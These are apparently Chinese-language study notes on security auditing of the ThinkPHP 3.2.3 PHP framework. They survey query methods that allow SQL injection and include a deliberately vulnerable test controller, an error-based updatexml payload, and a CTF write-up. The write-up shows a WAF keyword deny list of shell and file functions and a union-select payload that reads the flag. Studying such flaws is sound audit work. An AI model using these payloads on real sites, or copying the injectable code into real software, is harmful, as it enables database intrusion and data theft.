

MVC是一种开发模式，三层结构是一种开发习惯，严格来讲是完全不同的概念，但是实际中有各种联系：
MVC是一种将视图、控制、数据三者分开的一种开发模式：
简写
全称
工作
M
Model（模型）
编写Model类，负责数据的操作
V
View（视图）
编写HTML文件，负责前台页面显示
C
Controller（控制器）
编写类文件，IndexController.class.php
ThinkPHP3.2.3-Doc
下文均以ThinkPHP3.2.3举例
├─ThinkPHP 框架系统目录 │ ├─Common 核心公共函数目录 │**├─Conf 核心配置目录 │ ├─Lang 核心语言包目录 │**├─Library 框架类库目录 │ │ ├─Think 核心Think类库包目录 │ │ │ ├─Db │ │ │ │**├─Driver.class.php 数据条件分析，各种操作数据库 │ │ │**├─Model.class.php 连贯操作 │ │ ├─Behavior 行为类库目录 │ │ ├─Org Org类库包目录 │ │ ├─Vendor 第三方类库目录 │ │ ├─ ... 更多类库目录 │ ├─Mode 框架应用模式目录 │ ├─Tpl 系统模板目录 │ ├─LICENSE.txt 框架授权协议文件 │ ├─logo.png 框架LOGO文件 │ ├─README.txt 框架README文件 │ └─ThinkPHP.php 框架入口文件 ---------------------------------- ├─Application │ ├─Common 应用公共模块 │ │ ├─Common 应用公共函数目录 │ │ └─Conf 应用公共配置文件目录 │ ├─Home 默认生成的Home模块 │ │ ├─Conf 模块配置文件目录 │ │ ├─Common 模块函数公共目录 │**│ ├─Controller 模块控制器目录 │**│ ├─Model 模块模型目录 │ │ └─View 模块视图文件目录 │**├─Runtime 运行时目录(可删除，运行时可再次生成) │ │ ├─Cache 模块缓存目录 │ │ ├─Data 数据目录 │ │ ├─Logs 日志目录 │ │ └─Temp 缓存目录
config.php添加语句
'SHOW_PAGE_TRACE' =>true ,
(config.php在Application/Common/Conf目录)
URL模式
系统会从URL参数中解析当前请求的模块、控制器和操作：
http://serverName/index.php/模块/控制器/操作 http://serverName/index.php/index/content/list
http://serverName/index.php?m=模块&c=控制器&a=方法名&键1=值&... http://serverName/index.php?m=index&c=content&a=list
ThinkPHP的控制器是一个类，而操作则是控制器类的一个公共（public function）方法 。
<?php namespace Home \Controller ;use Think \Controller ;class IndexController extends Controller public function index ( echo 'hello,thinkphp!' ; } }
A([模块/]控制器标志)实例化控制器对象
R([模块/]控制器标志/操作方法)实例化控制器对象同时调用指定对象
跨控制器实例化后，再调用被实例化对象的方法
$Test =A ('User' );$Test ->index ();
相比A方法更加简单快捷，直接调用控制器里的方法
Action参数绑定是通过直接绑定URL地址中的变量作为操作方法的参数，Action参数绑定功能默认是开启的，其原理是把URL中的参数（不包括模块、控制器和操作名）和操作方法中的参数进行绑定
'URL_PARAMS_BIND' => true
官方推荐I方法
I ('变量类型.变量名/修饰符' ,['默认值' ],['过滤方法或正则' ],['额外数据源' ])$id =I ('id' ,'1' ,'intval' );dump ($id );
常量
说明
IS_GET(POST、PUT、DELETE)
判断是否是GET（POST、PUT、DELETE）方式提交
IS_AJAX
判断是否是AJAX提交
REQUEST_METHOD
当前提交类型
Ajax请求的时候，抓包后需在头部添加
X-Requested-With:XMLHttpRequest
3.2.3版本开始，插件控制器默认和模块同级
http://127.0.0.1/tp/home/info/index/addon/SystemInfo
3.2.3版本中，实际访问呢的插件控制器是
Addon/SystemInfo/Controller/InfoController.class.php
插件控制器的定义如下：
<?php namespace Addon \SystemInfo \Controller ;class InfoController extends \Think \Controller public function index ( phpinfo (); } }
doc
以字符串方式将条件作为where()方法的参数时会产生SQL注入
M ('user' )->where ('id=' .I ('id' ))->find ();
提交payload
" and 1=(updatexml(1,concat(0x3a,(user())),1))%23"
如果是数组查询进入_parseType方法分析，数组的val值会被转成int
进入./ThinkPHP/Library/Think/Model.class.php中调试
public function getUserarray ( $User = M ("User" ); $map ['id' ] = I ('id' ); $User ->where ($map )->select (); }
protected function _parseType (&$data ,$key ) if (!isset ($this ->options['bind' ][':' .$key ]) && isset ($this ->fields['_type' ][$key ])){ $fieldType = strtolower ($this ->fields['_type' ][$key ]); if (false !== strpos ($fieldType ,'enum' )){ }elseif (false === strpos ($fieldType ,'bigint' ) && false !== strpos ($fieldType ,'int' )) { $data [$key ] = intval ($data [$key ]); }elseif (false !== strpos ($fieldType ,'float' ) || false !== strpos ($fieldType ,'double' )){ $data [$key ] = floatval ($data [$key ]); }elseif (false !== strpos ($fieldType ,'bool' )){ $data [$key ] = (bool )$data [$key ]; } } }
强转成intval，1p被强转成1，无注入
一般情况下，操作模型的时候系统能够自动识别当前对应的数据表，用到table方法的场景就是切换数据表查询
M ()->table (I ('tab' ))->where ('1=1' )->find ();
究其原因是query方法
field方法操作表中字段，限制查询返回的结果
M ('user' )->field (array ('id' ,'username' ))->select ();
只要field方法里的参数可控，不管是数组还是字符串，都是可以被注入的
M ('user' )->field (array ('id' ,'username' =>I ('name' )))->select ();
alias方法操作表的别名，和field方法用法类似
一般和join方法成对出现，用于对数据的连贯操作
出现join和union方法的时候，只要能控制参数一般情况下都会产生注入
小结 ：
所有在表名之前的操作符或方法大多数都可以被注入
M ('user' ) ->where ('1=1' ) ->order (array ('id' =>I ('orderby' ))) ->select ();
$data =M ('user' ) ->find ('max(score),username' ) ->group ('score' ) ->select (); dump ($data );
$data =M ('user' ) ->field ('max(score,username' ) ->group ('score' ) ->having ('score>1' ) ->select (); dump ($data );
comment方法用于在生成的SQL语句中添加注释内容
$data =M ('user' ) ->comment (I ('com' )) ->where ('1=1' ) ->find (); dump ($data );
index方法用于数据集的强制索引操作，对查询强制使用userid索引，userid必须是数据表实际创建的索引名称
$data =M ('user' )->force (I ('f' ))->select ();dump ($data );
ThinkPHP仍然保留了原生的SQL查询和执行操作支持，为了满足复杂查询的需要和一些特殊的数据操作
实例化一个空模型后使用query方法查询数据
$data =M ()->query ('select * from thinkphp_user' );dump ($data );
execute方法可以新增、修改、删除数据，同样也是需要实例化空模型
M ()->execute ("update thinkphp_user set username='user' where id =1" );
count、max、min、avg、sum这5个方法注入场景类似
$data =M ('user' )->count (I ('parameter' ));dump ($data );
EXP表达式查询，支持SQL语法
exp查询的条件不会被当成字符串，所以后面的查询条件可以使用任何SQL支持的语法，包括使用函数和字段名称。查询表达式不仅可用于查询条件，也可以用于数据更新
对于统计字段（通常指的是数字类型）的更新，系统还提供了setInc和setDec方法
$user =M ('user' );$user ->where ('id=5' )->setInc ('score' ,3 );$user ->where ('id=5' )->setInc ('score' );$user ->where ('id=5' )->setDec ('score' ,5 );$user ->where ('id=5' )->setDec ('score' );
审计的时候先查找I方法或者$_GET、$_POST等原生态的请求，从而容易忽略掉Action参数传入的变量
ThinkPHP5新增了INPUT函数
如果带入到where方法里，表示以字符串的形式查询，也就造成了注入
public\s+function\s+[\w_-]+\(\$
组合查询的主体还是采用数组方式查询，只是加入了一些特殊的查询支持，包括字符串模式查询（_string）、请求字符串查询（）
数组条件可以和字符串条件（采用_string作为查询条件）混合使用
请求字符串查询是一种类似于URL传参的方式，可以支持简单的条件相等判断
$map ['id' ] = array ('gt' ,'100' );$map ['_query' ] = 'status=1&score=100&_logic=or' ;
此处附".\Application\Home\Controller\IndexController.class.php"和.\Application\Home\Controller\UserController.class.php源码
--- <?php namespace Home \Controller ;use Think \Controller ;class IndexController extends Controller public function index ( echo 'index!!!' ; } public function hello ( echo 'hello!!!' ; } public function getDbUser ( $data =M ('user' )->where ('id=1' )->select (); dump ($data ); } public function getUserIndexA ( $Test =A ('User' ); $Test ->index (); } public function getUserHelloA ( $hello =A ('User' ); $hello ->hello (); } public function getUserIndexR ( R ('User/index' ); } public function getUserHelloR ( R ('User/hello' ); } public function getUser ($id echo $id ; } public function getUserI ( $id =I ('id' ,'1' ,'intval' ); dump ($id ); } public function getUserWhere ( $data =M ('user' )->where ('id=' .I ('id' ))->find (); dump ($data ); } public function getUserArray ( $User = M ("User" ); $map ['id' ] = I ('id' ); $User ->where ($map )->select (); } public function getUserTable ( M ()->table (I ('tab' ))->where ('1=1' )->find (); } public function getUserField ( echo "1" ; M ('user' )->field (array ('id' ,'username' =>I ('name' )))->select (); } public function getUserOrder ( M ('user' )->where ('1=1' )->order (array ('id' =>I ('orderby' )))->select (); } public function getUserGroup ( $data =M ('user' )->find ('max(score),username' )->group ('score' )->select (); dump ($data ); } public function getUserHaving ( $data =M ('user' ) ->field ('max(score,username' ) ->group ('score' ) ->having ('score>1' ) ->select (); dump ($data ); } public function getUserLimit ( $data =M ('user' )->limit (I ('limit' ))->select (); dump ($data ); } public function getUserComment ( $data =M ('user' )->comment (I ('com' ))->where ('1=1' )->find (); dump ($data ); } public function getUserIndex ( $data =M ('user' )->force (I ('f' ))->select (); dump ($data ); } public function getUserCount ( $data =M ('user' )->count (I ('parameter' )); dump ($data ); } public function getUserEXP ( $map =array (); $map ['id' ]=$_GET ['id' ]; $data =M ('user' )->where ($map )->find (); dump ($data ); } public function getUserEXP2 ( $user =M ('user' ); $user ->where ('id=2' )->setInc ('score' ,I ('num' )); } public function getUserAction ($id if (intval ($id )>0 ){ $data =M ('suer' )->where ('id=' .$id )->select (); dump ($data ); } } public function getUserString ( $user =M ('user' ); $map ['id' ]=array ('eq' ,1 ); $map ['username' ]='ok' ; $map ['_string' ]='score=' .I ('score' ); $user ->where ($map )->select (); } } ?>
--- <?php namespace Home \Controller ;use Think \Controller ;class UserController extends Controller public function index ( echo 'User index!!!' ; } public function hello ( echo 'User hello!!!' ; } } ?>
ThinkPHP5详见05PHP个人博客
IndexController.class.php中源码：
<?php namespace Home \Controller ;use Think \Controller ;class IndexController extends Controller public function index ( header ("Content-type:text/html;charset=utf-8" ); echo '装起来了' ; } public function h_n ( function waf ( if (!function_exists ('getallheaders' )) { function getallheaders ( foreach ($_SERVER as $name => $value ) { if (substr ($name , 0 , 5 ) == 'HTTP_' ) $headers [str_replace (' ' , '-' , ucwords (strtolower (str_replace ('_' , ' ' , substr ($name , 5 ))))) ] = $value ; } return $headers ; } } $get = $_GET ; $post = $_POST ; $cookie = $_COOKIE ; $header = getallheaders (); $files = $_FILES ; $ip = $_SERVER ["REMOTE_ADDR" ]; $method = $_SERVER ['REQUEST_METHOD' ]; $filepath = $_SERVER ["SCRIPT_NAME" ]; foreach ($_FILES as $key => $value ) { $files [$key ]['content' ] = file_get_contents ($_FILES [$key ]['tmp_name' ]); file_put_contents ($_FILES [$key ]['tmp_name' ], "virink" ); } unset ($header ['Accept' ]); $input = array ( "Get" => $get , "Post" => $post , "Cookie" => $cookie , "File" => $files , "Header" => $header ); $pattern = "insert|update|delete|and|or|\/\*|\*|\.\.\/|\.\/|into|load_file|outfile|dumpfile|sub|hex" ; $pattern .= "|file_put_contents|fwrite|curl|system|eval|assert" ; $pattern .= "|passthru|exec|system|chroot|scandir|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore" ; $pattern .= "|`|dl|openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|assert|pcntl_exec" ; $vpattern = explode ("|" , $pattern ); $bool = false ; foreach ($input as $k => $v ) { foreach ($vpattern as $value ) { foreach ($v as $kk => $vv ) { if (preg_match ("/$value /i" , $vv )) { $bool = true ; break ; } } if ($bool ) break ; } if ($bool ) break ; } return $bool ; } $name = I ('GET.name' ); $User = M ("user" ); if (waf ()){ $this ->index (); }else { $ret = $User ->field ('username,age' )->where (array ('username' =>$name ))->select (); echo var_export ($ret , true ); } } }
在原版thinkphp3.2.3中，删除了think_filter过滤的exp，使得我们可以利用在ThinkPHP\Library\Think\Db\Driver.class.php中的
if (is_array ($val )) { ... elseif ('exp' == $exp ){ $whereStr .= $key .' ' .$val [1 ]; } }
利用exp时，需要手动添加等号，再配合union select，即可获得flag
payload：
/index.php/home/index/h_n?name[0]=exp&name[1]=%3d%27test123%27%20union%20select%201,flag%20from%20flag
注意，cookie可能会匹配某些过滤，删除即可
